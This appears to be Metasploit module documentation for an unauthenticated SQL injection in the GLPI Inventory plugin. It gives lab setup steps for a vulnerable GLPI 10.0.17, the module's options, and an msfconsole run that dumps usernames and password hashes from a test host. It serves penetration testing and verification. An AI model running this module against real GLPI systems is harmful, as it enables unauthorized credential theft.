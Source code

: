 ## Vulnerable Application
GLPI <= 1.0.18 fails to properly sanitize user supplied data when sent inside a `SimpleXMLElement`
(available to unauthenticated users), prior to using it in a dynamically constructed SQL query.
As a result, unauthenticated attackers can conduct an SQL injection attack to dump sensitive
data from the backend database such as usernames and password hashes.

In order for GLPI to be exploitable the GLPI Inventory plugin must be installed and enabled, and the "Enable Inventory"
radio button inside the administration configuration also must be checked.

### Setup on Ubuntu 22.04

Install PHP dependencies:
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install apache2 php8.3 php8.3-curl php8.3-zip php8.3-gd php8.3-intl \
 php8.3-intl php-pear php8.3-imagick php-bz2 php8.3-imap php-memcache php8.3-pspell   \
 php8.3-tidy php8.3-xmlrpc php8.3-xsl php8.3-mbstring php8.3-ldap php-cas php-apcu    \
 libapache2-mod-php8.3 php8.3-mysql mariadb-server
```

Ensure mariadb and apache are installed and running:
```
sudo systemctl status apache2
sudo systemctl status mariadb
```

Run the mysql secure installation script, input defaults and your desired username password:
```
sudo mysql_secure_installation
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `glpi`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'notpassword';
CREATE DATABASE glpi;
GRANT ALL PRIVILEGES ON glpi.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download the vulnerable version of GLPI, extract it and move it to `/var/www/html`:
```
wget https://github.com/glpi-project/glpi/releases/download/10.0.17/glpi-10.0.17.tgz
tar -xvf glpi-10.0.17.tgz
sudo mv glpi /var/www/html/
```

Download the vulnerable inventory plugin:
```
cd /var/www/html/glpi/plugins
sudo wget https://github.com/glpi-project/glpi-inventory-plugin/releases/download/1.4.0/glpi-glpiinventory-1.4.0.tar.bz2
sudo tar -xvjf glpi-glpiinventory-1.4.0.tar.bz2
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

Edit sites-available:
```
sudo vim /etc/apache2/sites-available/glpi.conf
```

Paste:
```
<VirtualHost *:80>
   ServerAdmin admin@your_domain.com
   DocumentRoot /var/www/html/glpi
   ServerName your-domain.com

   <Directory /var/www/html/glpi>
        Options FollowSymlinks
        AllowOverride All
        Require all granted
   </Directory>

   ErrorLog ${APACHE_LOG_DIR}/your-domain.com_error.log
   CustomLog ${APACHE_LOG_DIR}/your-domain.com_access.log combined

</VirtualHost>
```

Create the following symlink, rewrite and restart:
```
sudo ln -s /etc/apache2/sites-available/glpi.conf /etc/apache2/sites-enabled/glpi.conf
sudo a2enmod rewrite
sudo systemctl restart apache2
```

The application should be now available at `http://127.0.0.1/glpi`, navigate there in a browser to complete the setup wizard.
Warnings in the `Checking of the compatibility of your environment with the execution of GLPI` can be ignored, click continue.
It will ask you for the database credentials created above, input them and select the `glpi` database created above.

Once complete you'll be brought to a login page, authenticate using the default credentials `glpi`/`glpi`.

On the left hand side select and expand `Administration` in the dropdown select `Inventory`.
On the right hand side select `Enable Inventory`, then `Save` at the bottom.

On the left hand side select and expand `Setup` in the dropdown select `Plugins`.
Near the bottom of the screen find the `GLPI Inventory` plugin and under `Actions` click the install button (Folder icon with `+` symbol).
After installing the plugin a pop up will appear in the bottom right and ask if you want to enable the plugin, enable it.

Now the application should be vulnerable.

## Options

### DB_COLUMNS
The number of columns in the database. Can vary between versions, adjust this if exploit does not work initially.

### MAX_ENTRIES
The maximum  number of entries to dump from the database. More entries will increase module runtime.

## Verification Steps

1. Start msfconsole.
1. Do: `use gather/glpi_inventory_plugin_unauth_sqli`.
1. Set the `RHOST`.
1. Set `MAX_ENTRIES` to `1` to speed up module run time for verification.
1. Run the module.
1. Receive a table with one username and it's corresponding password hash.

## Scenarios
### GLPI 10.0.17 running on Ubuntu 22.04
```
msf6 > use gather/glpi_inventory_plugin_unauth_sqli
msf6 auxiliary(gather/glpi_inventory_plugin_unauth_sqli) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 auxiliary(gather/glpi_inventory_plugin_unauth_sqli) > exploit 
[*] Reloading module...
[*] Running module against 172.16.199.130
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
glpi_users
==========

 name                   password                                                     api_token
 ----                   --------                                                     ---------
 Plugin_GLPI_Inventory  39
 glpi                   $2y$10$ci01zoEXHWOfoxietd8ry.2K6Y3wR5bc1dZQiftuFM5hqQtPgD6LS
 glpi-system
 normal                 $2y$10$iaxy0646EhwsuBbjAgme4uJN6SN.pbyK.ciTCnep67Wq8x.qt1JvS
 post-only              $2y$10$//Ca44JjRIV/9Hv1IEM1y.v1aEa3FwzytX4QYtKsxyqF/rnOzROei
 tech                   $2y$10$KjaOxGSyd0CMifvDVNiggOxCVHP0g8jER/jLtZsmF54S63LH5GWIy

[*] Auxiliary module execution completed
```

